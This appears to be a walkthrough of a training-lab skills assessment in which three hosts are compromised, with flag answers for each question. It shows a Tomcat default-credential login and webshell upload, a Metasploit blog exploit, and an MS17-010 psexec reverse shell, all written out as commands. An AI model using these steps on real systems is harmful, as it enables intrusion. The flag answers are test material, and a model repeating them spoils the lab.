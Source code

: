 # The Live Engagement
Found credentials at `/home/htb-student/Desktop/access-creds.txt`
1. What is the hostname of Host-1? (Format: all lower case) **Answer: shells-winsvr**
   - Perform nmap scan and observe that the target is providing a Apache Tomcat management dashboard at http://172.16.1.11:8080:
        ```
        $nmap -sV 172.16.1.11 
        Starting Nmap 7.92 ( https://nmap.org ) at 2025-09-25 22:34 EDT
        Nmap scan report for status.inlanefreight.local (172.16.1.11)
        Host is up (0.037s latency).
        Not shown: 989 closed tcp ports (conn-refused)
        PORT     STATE SERVICE       VERSION
        80/tcp   open  http          Microsoft IIS httpd 10.0
        135/tcp  open  msrpc         Microsoft Windows RPC
        139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
        445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
        515/tcp  open  printer
        1801/tcp open  msmq?
        2103/tcp open  msrpc         Microsoft Windows RPC
        2105/tcp open  msrpc         Microsoft Windows RPC
        2107/tcp open  msrpc         Microsoft Windows RPC
        3389/tcp open  ms-wbt-server Microsoft Terminal Services
        8080/tcp open  http          Apache Tomcat 10.0.11
        Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
        ```
   - Visit http://172.16.1.11:8080/manager/html and try to login using one of the common [Apache Tomcat's credentials](https://gist.github.com/0xRar/70aae102af56495b7be51486d363c4bd)(`tomcat`:`Tomcatadm`).
   - Upload a `.war` webshell located at `/usr/share/laudanum/cmd.war`.
   - Visit the shell at http://172.16.1.11:8080/cmd/cmd.jsp and execute the `hostname` command to get the target's hostname.
2. Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case) **Answer: dev-share**
   - Use the above shell and execute this command: `cmd.exe /c dir C:\Shares`
3. What distribution of Linux is running on Host-2? (Format: distro name, all lower case) **Answer: ubuntu**
   - Perform a nmap scan → Read the SSH version.
4. What language is the shell written in that gets uploaded when using the 50064.rb exploit? **Answer: PHP**
   - Read the exploit at https://www.exploit-db.com/exploits/50064.
5. Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt **Answer: B1nD_Shells_r_cool**
   - Visit the site at http://blog.inlanefreight.local
   - Successfully log in using this credentials `admin`:`admin123!@#`
   - The blog page is suggesting to use the 50064.rb exploit. Use msfconsole with this module to get RCE:
      ```
      $ msfconsole
      msf6> use exploits/50064.rb
      msf6> set USERNAME admin
      msf6> set PASSWORD admin123!@#
      msf6> set RHOSTS 172.16.1.12  # read from /etc/hosts
      msf6> set VHOST blog.inlanefreight.local
      msf6> exploit
      msf6> cat /customscripts/flag.txt
      ```
6. What is the hostname of Host-3? **Answer: SHELLS-WINBLUE**
   - `sudo nmap -sV -sC 172.16.1.13` → Read the **Computer name** in the **smb-os-discovery** section.
7. Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt. **Answer: One-H0st-Down!**
   - Notice the vulnerable SMB version, use `msfconsole` with `exploit/windows/smb/ms17_010_psexec` module:
      ```
      $ msfconsole
      msf6> exploit/windows/smb/ms17_010_psexec
      msf6> set RHOSTS 172.16.1.13
      msf6> set LHOST 172.16.1.15      # internal IP using `ip a`
      msf6> exploit
      msf6> cd  ../../Users/Administrator/Desktop
      msf6> cat Skills-flag.txt
      ```
